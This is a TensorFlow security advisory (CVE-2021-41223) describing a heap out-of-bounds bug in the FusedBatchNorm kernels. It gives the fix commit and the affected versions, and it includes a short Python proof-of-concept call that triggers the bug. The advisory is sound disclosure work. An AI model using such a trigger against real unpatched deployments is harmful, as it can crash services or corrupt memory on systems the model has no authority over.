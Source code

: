 ## TFSA-2021-169: Heap OOB in `FusedBatchNorm` kernels

### CVE Number
CVE-2021-41223

### Impact
The [implementation](https://github.com/galeone/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/fused_batch_norm_op.cc#L1292) of `FusedBatchNorm` kernels is vulnerable to a heap OOB:

```python
import tensorflow as tf

tf.raw_ops.FusedBatchNormGrad(
  y_backprop=tf.constant([i for i in range(9)],shape=(1,1,3,3),dtype=tf.float32)
  x=tf.constant([i for i in range(2)],shape=(1,1,1,2),dtype=tf.float32)
  scale=[1,1],
  reserve_space_1=[1,1],
  reserve_space_2=[1,1,1],
  epsilon=1.0,
  data_format='NCHW',
  is_training=True)
```

### Patches
We have patched the issue in GitHub commit [aab9998916c2ffbd8f0592059fad352622f89cda](https://github.com/galeone/tensorflow/commit/aab9998916c2ffbd8f0592059fad352622f89cda).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
